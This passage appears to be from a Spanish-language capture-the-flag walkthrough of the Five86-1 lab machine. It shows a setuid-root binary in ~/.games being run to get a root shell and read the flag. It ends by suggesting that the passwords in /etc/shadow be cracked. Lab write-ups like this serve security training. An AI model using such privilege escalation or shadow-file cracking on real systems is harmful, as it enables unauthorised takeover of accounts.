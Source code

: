 Hay un binario `upyourgame`

```bash
moss@five86-1:~/.games$ ls -l
total 20
lrwxrwxrwx 1 moss moss    21 Jan  1  2020 battlestar -> /usr/games/battlestar
lrwxrwxrwx 1 moss moss    14 Jan  1  2020 bcd -> /usr/games/bcd
lrwxrwxrwx 1 moss moss    21 Jan  1  2020 bombardier -> /usr/games/bombardier
lrwxrwxrwx 1 moss moss    17 Jan  1  2020 empire -> /usr/games/empire
lrwxrwxrwx 1 moss moss    20 Jan  1  2020 freesweep -> /usr/games/freesweep
lrwxrwxrwx 1 moss moss    15 Jan  1  2020 hunt -> /usr/games/hunt
lrwxrwxrwx 1 moss moss    20 Jan  1  2020 ninvaders -> /usr/games/ninvaders
lrwxrwxrwx 1 moss moss    17 Jan  1  2020 nsnake -> /usr/games/nsnake
lrwxrwxrwx 1 moss moss    25 Jan  1  2020 pacman4console -> /usr/games/pacman4console
lrwxrwxrwx 1 moss moss    17 Jan  1  2020 petris -> /usr/games/petris
lrwxrwxrwx 1 moss moss    16 Jan  1  2020 snake -> /usr/games/snake
lrwxrwxrwx 1 moss moss    17 Jan  1  2020 sudoku -> /usr/games/sudoku
-rwsr-xr-x 1 root root 16824 Jan  1  2020 upyourgame
lrwxrwxrwx 1 moss moss    16 Jan  1  2020 worms -> /usr/games/worms
moss@five86-1:~/.games$ 

```

## Shell como root

XDD

```bash
moss@five86-1:~/.games$ ./upyourgame 
Would you like to play a game? yes

Could you please repeat that? yes

Nope, you'll need to enter that again. yes

You entered: No.  Is this correct? no

We appear to have a problem?  Do we have a problem? yes

Made in Britain.
# bash
root@five86-1:~/.games# whoami
root
root@five86-1:~/.games# cd /root
root@five86-1:/root# ls
flag.txt
root@five86-1:/root# cat flag.txt 
8f3b38dd95eccf600593da4522251746
root@five86-1:/root# 
```

Si quisieras saber las contraseñas de los que faltaron pues como estas como root puedes crackearlas por que puedes el `etc/shadow`
